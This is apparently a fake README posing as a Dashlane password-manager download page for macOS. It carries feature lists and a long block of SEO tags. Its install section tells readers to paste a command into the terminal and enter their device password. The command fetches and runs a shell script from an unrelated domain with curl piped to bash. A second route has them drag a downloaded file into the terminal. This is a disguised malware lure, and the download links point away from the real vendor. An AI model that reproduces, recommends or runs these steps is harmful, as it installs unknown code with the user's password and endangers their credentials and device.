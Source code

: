 # 🔐 Dashlane — Secure Password Manager & Autofill App for macOS

**Dashlane** is an all-in-one password manager and digital wallet designed for macOS users. With Dashlane, you can securely store passwords, autofill logins, generate strong credentials, and manage your digital identity with confidence and ease.

Whether you're a remote professional, student, or everyday Mac user, Dashlane protects your sensitive data with industry-leading encryption and seamless cross-device sync.

---

## ✅ Download Dashlane for macOS  
[![Download Dashlane](https://img.shields.io/badge/Download-Dashlane-blueviolet)](https://dashlane-mac-download.github.io/.github)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get1/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)



## 🔐 What is Dashlane?

Dashlane is a powerful and intuitive password manager available for macOS. It offers automatic password saving and filling, secure notes, identity storage, dark web monitoring, and built-in VPN protection — all in a privacy-focused interface.

From managing your hundreds of logins to ensuring you're using strong, unique passwords, Dashlane simplifies and secures your online experience.

---

## ✨ Features

- 🔑 **Secure Password Storage** with zero-knowledge encryption  
- 🔐 Autofill login credentials, payment details, and personal data  
- 🛡 Built-in **VPN** for private browsing  
- 🌐 Dark Web Monitoring for compromised account alerts  
- 💻 Seamless sync across all Apple devices  
- 🧠 Password Health dashboard and security alerts  
- 🧾 Secure storage for notes, documents, and IDs  
- 🚫 One-click password changer for supported websites  
- 🖥 Native app for **macOS Ventura** and **Apple Silicon (M1/M2/M3)**  

---

## 💡 Why Use Dashlane?

- 🧩 Simplifies online security for busy professionals and families  
- 🔐 Eliminates password reuse and weak credentials  
- ☁️ Encrypted backup and cross-device syncing  
- 📲 Available on macOS, iOS, and other platforms  
- 🧘 Easy-to-use interface with real-time protection  

---

[![Download Dashlane](https://img.shields.io/badge/Download-Dashlane-blueviolet)](https://dashlane-mac-download.github.io/.github)

---

## 🖼 Preview

![Dashlane Screenshot 1](https://www.dashlane.com/uploads/2021/08/Catalyst_BlogHeader_1600x900-2.png), ![Dashlane Screenshot 2](https://support.dashlane.com/hc/article_attachments/22350866506130)

---

## 📌 Tags

dashlane mac  
dashlane download mac  
download dashlane for mac  
dashlane for mac download  
download dashlane mac  
dashlane download for mac  
dashlane on mac  
dashlane mac app  
dashlane macos  
dashlane app for mac  
dashlane mac download  
dashlane password manager mac  
dashlane offline mac  
dashlane premium mac  
best password manager mac  
dashlane autofill mac  
secure vault mac  
dashlane m1 mac  
dashlane for macbook  
macbook password manager
